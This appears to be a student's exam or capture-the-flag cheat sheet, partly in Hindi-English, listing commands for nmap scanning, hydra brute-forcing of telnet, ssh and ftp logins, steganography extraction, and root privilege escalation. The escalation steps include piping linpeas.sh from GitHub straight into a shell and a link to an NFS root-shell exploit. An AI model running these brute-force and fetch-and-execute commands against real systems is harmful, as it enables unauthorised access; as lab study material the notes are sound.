 nmap -T4 -A -p 80,443 192.168.x.x/2x

Look out for telnet or ssh and bruteforce it
hydra -L username_file -P password_file TARGET_IP telnet
or
hydra -L username_file -P password_file TARGET_IP ssh

Login to the identified service and search for the file


---------------------------------------------------------------------------------------------------------------------------
Stegnography 

Analyze the image file and extract the sensitive data hidden in the file
Use OpenStego on Windows
Select Extract Data
Upload file and select path of destination
Use any pointer from the question as keyword where applicable
Click to Extract Data

---------------------------------------------------------------------------------------------------------------------------
ftp Exploitation

Steps:
Identify FTP Service:
nmap -p 21 192.x.x.0/24

Exploit Weak Credentials:
Use a tool like hydra or medusa to perform a brute-force attack on the FTP service using a wordlist.
hydra -L username_file -P password_file 192.168.0.x ftp
Replace <username> with the FTP username and <passwords.txt> with a file containing a list of 
possible passwords.

Connect to FTP Server:
Once you have valid credentials, connect to the FTP server using an FTP client.
ftp 192.168.0.x
Retrieve file:
get file
View Content:
cat file


---------------------------------------------------------------------------------------------------------------------------
Priviledge Escalation

nmap scan chalna phle fir usme pta krna ki linux machine kon si hai (ubuntu)wali usme machine ka IP ptaa lg jayega
fir  ssh se connect krna hai 
#command- ssh username@192.168.0.x
fir password dal dena (username& password question mai diya hoga )
fir direct yeh command chlaa dena
#command- curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh
iske output mai root user ka password ayega 
fir "sudo su" command daal krke root user mai login krna us password se privlege escalate ho gye
fir koi flag hoga usko submit kr dena
======================
Vulnerability : Nfs squash method
if you have time Follow this tutorial only
https://juggernaut-sec.com/nfs-no_root_squash/#Example_1_Crafting_an_Exploit_for_a_Root_Shell
or
### Perform vertical privilege escalation of a root user, and enter the flag
Exploiting misconfigured NFS (port 2049)
